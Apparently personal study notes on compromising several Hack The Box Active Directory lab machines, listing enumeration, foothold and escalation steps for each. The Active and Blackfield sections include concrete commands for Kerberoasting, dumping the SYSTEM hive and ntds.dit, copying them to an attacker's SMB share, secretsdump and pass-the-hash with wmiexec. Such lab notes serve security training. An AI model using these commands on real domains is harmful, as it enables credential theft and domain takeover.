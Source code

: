 
Now I will make different attack plans based on the box but it was clearly written that will get fail if we went with this strategy.


# Forest:
#### **Things to Look For**:

1. **Ports and Services**:
    
    - LDAP (389) and SMB (445) for AD enumeration.
    - RDP (3389) for potential remote access.
2. **AD Enumeration**:
    
    - Kerberos attacks (ASREPRoasting, Kerberoasting).
    - Domain trusts and privilege relationships with BloodHound.
3. **Credentials**:
    
    - Always check for hashes or passwords in dumped data.
    - Look for misconfigurations in permissions (`WriteDACL` or `WriteOwner`).
4. **Foothold and Escalation**:
    
    - Use PowerShell tools like PowerView for post-compromise enumeration.
    - Escalate using credentials and lateral movement (e.g., PsExec).


ASREPRoasting
Enumeration with Bloodhound
DCSync Attack

ldapsearch -h <ip_Address> -p 389 -x -b "dc=htb,dc=local"

Enumeration:
Nmap 
Ldap

Foothold:
GetNPUsers.py
HashCat 

1st way Privilege Escalation:
Bloodhound
Exchange Windows Permission -> WriteDacl
PowerView
Secretsdump/Psexec


2nd way Privilege Escalation:
Golden Ticket
Psexec / smb





# Sauna:

#### **Things to Look For**:

1. **Services and Protocols**:
    
    - LDAP (389) and Kerberos (88) for AD attacks.
    - SMB (445) for share enumeration and lateral movement.
    - Web services for potential vulnerabilities and misconfigurations.
2. **Hashes and Credentials**:
    
    - Use tools like `GetNPUsers.py` and `kerbrute` to extract Kerberos hashes.
    - Crack credentials with `Hashcat` and use them for WinRM or SMB access.
3. **Privilege Escalation**:
    
    - Enumerate AD relationships with **BloodHound**.
    - Perform DCSync attacks with `secretsdump.py` to extract domain hashes.


ASREPRoasting
DCSync Attack

Enumeration:
Nmap 
Ldap
SMB
Web

Foothold:
HashCat 
WinRM

Privilege Escalation:
Bloodhound
DCSync 


Sauna:

Enumeration:
Nmap 
enum4linux
kerbrute 
GetNPUsers.py
HashCat

Foothold:
HashCat 
WinRM -> Evil-winrm

Privilege Escalation:
Bloodhound
DCSync 
secretsdump.py



# Active:

- **Weak Credentials**:
    
    - Default or embedded credentials in GPP files.
    - Reuse of credentials across services.
- **AD Exploitation**:
    
    - Enumerate SPNs and other Kerberos-related vulnerabilities.
    - Misconfigured permissions or roles for privilege escalation.
- **SMB Shares**:
    
    - Look for sensitive files like GPP configurations or password stores.
- **Service-Specific Vulnerabilities**:
    
    - Focus on LDAP, SMB, and Kerberos for AD environments.


SMB enumeration techniques

Enumeration:
Nmap
SMB

Foothold:
GPP
Authenticated Enumeration

Privilege Escalation:
Kerberoasting


GetUserSPNs.py active.htb/svc_tgs:'GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -request


# Blackfield:

### **Things to Look For**:

1. **AD Exploitation**:
    
    - Leverage Backup Operators or misconfigured permissions for privilege escalation.
    - Target files like `NTDS.dit` and `SYSTEM` hive for domain-wide credential access.
2. **Credential Handling**:
    
    - Always analyze dumped hashes with tools like `secretsdump.py`.
3. **SMB Shares**:
    
    - Look for misconfigurations or sensitive files in shared directories.
4. **Enumeration Focus**:
    
    - LDAP and Kerberos enumeration for AD environments.

Leveraging Backup Operators group membership (SeBackup and SeRestore privileges)
Dumping credentials for LSASS
Anonymous / Guest Enumeration


Enumeration:
Nmap

Foothold:
SMBMAP
Smbclient
GetNPUsers

Privilege Escalation:
BloodHound
Rpcclient
lsass 
ldapsearch
Dumping Hashes with WBAdmin
Robocopy
Steal Ntds

reg save HKLM\SYSTEM C:\system.hive

cp ntds.dit \\10.10.14.3\smb\NTDS.dit
cp system.hive \\10.10.14.3\smb\system.hive

secretsdump.py -ntds NTDS.dit -system system.hive LOCAL

wmiexec.py -hashes :184fb5e5178480be64824d4cd53b99ee administrator@10.10.10.192

wbadmin start backup -backuptarget:\\10.10.10.192\C$\Windows\Temp\CFX\ -include:c:\Windows\ntds\ntds.dit -quiet


# Resolute:

### **Things to Look For**:

1. **AD Enumeration**:
    
    - Focus on groups like `DnsAdmins` or `Backup Operators` for privilege escalation.
    - Check permissions for paths allowing exploitation or file drops.
2. **SMB Shares**:
    
    - Always investigate shared files for sensitive information or misconfigurations.
3. **Built-In Tools**:
    
    - Identify and exploit Windows-native binaries (LOLbas) for stealthy privilege escalation.
4. **Lateral Movement**:
    
    - Use BloodHound and tools like WinPEAS to identify pathways to escalate or move laterally.

Resolute:
DnsAdmins Abuse

Enumeration:
Nmap
LDAP

Foothold:


Lateral Movement:
bloodhound
Winpeas

Privilege Escalation:
LOLbas


